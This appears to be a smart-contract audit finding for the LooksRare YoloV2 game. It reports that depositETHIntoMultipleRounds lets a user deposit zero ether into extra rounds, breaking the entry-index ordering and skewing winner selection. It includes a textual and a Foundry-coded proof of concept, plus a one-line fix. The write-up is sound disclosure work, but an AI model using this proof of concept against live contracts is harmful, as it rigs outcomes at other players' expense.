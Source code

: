 Mythical Satin Tuna

high

# Users can deposit "0" ether to any round

## Summary
The main invariant to determine the winner is that the indexes must be in ascending order with no repetitions. Therefore, depositing "0" is strictly prohibited as it does not increase the index. However, there is a method by which a user can easily deposit "0" ether to any round without any extra costs than gas.
## Vulnerability Detail
As stated in the summary, depositing "0" will not increment the entryIndex, leading to a potential issue with the indexes array. This, in turn, may result in an unfair winner selection due to how the upper bound is determined in the array. The relevant code snippet illustrating this behavior is found [here](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/libraries/Arrays.sol#L17-L19).

Let's check the following code snippet in the `depositETHIntoMultipleRounds` function
```solidity
for (uint256 i; i < numberOfRounds; ++i) {
            uint256 roundId = _unsafeAdd(startingRoundId, i);
            Round storage round = rounds[roundId];
            uint256 roundValuePerEntry = round.valuePerEntry;
            if (roundValuePerEntry == 0) {
                (, , roundValuePerEntry) = _writeDataToRound({roundId: roundId, roundValue: 0});
            }

            _incrementUserDepositCount(roundId, round);

            // @review depositAmount can be "0"
            uint256 depositAmount = amounts[i];

            // @review 0 % ANY_NUMBER = 0
            if (depositAmount % roundValuePerEntry != 0) {
                revert InvalidValue();
            }
            uint256 entriesCount = _depositETH(round, roundId, roundValuePerEntry, depositAmount);
            expectedValue += depositAmount;

            entriesCounts[i] = entriesCount;
        }

        // @review will not fail as long as user deposits normally to 1 round
        // then he can deposit to any round with "0" amounts
        if (expectedValue != msg.value) {
            revert InvalidValue();
        }
```

as we can see in the above comments added by me starting with "review" it explains how its possible. As long as user deposits normally to 1 round then he can also deposit "0" amounts to any round because the `expectedValue` will be equal to msg.value.

**Textual PoC:**
Assume Alice sends the tx with 1 ether as msg.value and "amounts" array as [1 ether, 0, 0].
first time the loop starts the 1 ether will be correctly evaluated in to the round. When the loop starts the 2nd and 3rd iterations it won't revert because the following code snippet will be "0" and adding 0 to `expectedValue` will not increment to `expectedValue` so the msg.value will be exactly same with the `expectedValue`.
```solidity
if (depositAmount % roundValuePerEntry != 0) {
                revert InvalidValue();
            }
```

**Coded PoC (copy the test to `Yolo.deposit.sol` file and run the test):**
```solidity
function test_deposit0ToRounds() external {
        vm.deal(user2, 1 ether);
        vm.deal(user3, 1 ether);

        // @dev first round starts normally
        vm.prank(user2);
        yolo.deposit{value: 1 ether}(1, _emptyDepositsCalldata());

        // @dev user3 will deposit 1 ether to the current round(1) and will deposit
        // 0,0 to round 2 and round3
        uint256[] memory amounts = new uint256[](3);
        amounts[0] = 1 ether;
        amounts[1] = 0;
        amounts[2] = 0;
        vm.prank(user3);
        yolo.depositETHIntoMultipleRounds{value: 1 ether}(amounts);

        // @dev check user3 indeed managed to deposit 0 ether to round2
        IYoloV2.Deposit[] memory deposits = _getDeposits(2);
        assertEq(deposits.length, 1);
        IYoloV2.Deposit memory deposit = deposits[0];
        assertEq(uint8(deposit.tokenType), uint8(IYoloV2.YoloV2__TokenType.ETH));
        assertEq(deposit.tokenAddress, address(0));
        assertEq(deposit.tokenId, 0);
        assertEq(deposit.tokenAmount, 0);
        assertEq(deposit.depositor, user3);
        assertFalse(deposit.withdrawn);
        assertEq(deposit.currentEntryIndex, 0);

        // @dev check user3 indeed managed to deposit 0 ether to round3
        deposits = _getDeposits(3);
        assertEq(deposits.length, 1);
        deposit = deposits[0];
        assertEq(uint8(deposit.tokenType), uint8(IYoloV2.YoloV2__TokenType.ETH));
        assertEq(deposit.tokenAddress, address(0));
        assertEq(deposit.tokenId, 0);
        assertEq(deposit.tokenAmount, 0);
        assertEq(deposit.depositor, user3);
        assertFalse(deposit.withdrawn);
        assertEq(deposit.currentEntryIndex, 0);
    }
```
## Impact
High, since it will alter the games winner selection and it is very cheap to perform the attack.
## Code Snippet
https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L312-L362
## Tool used

Manual Review

## Recommendation
Add the following check inside the depositETHIntoMultipleRounds function
```solidity
if (depositAmount == 0) {
     revert InvalidValue();
   }
```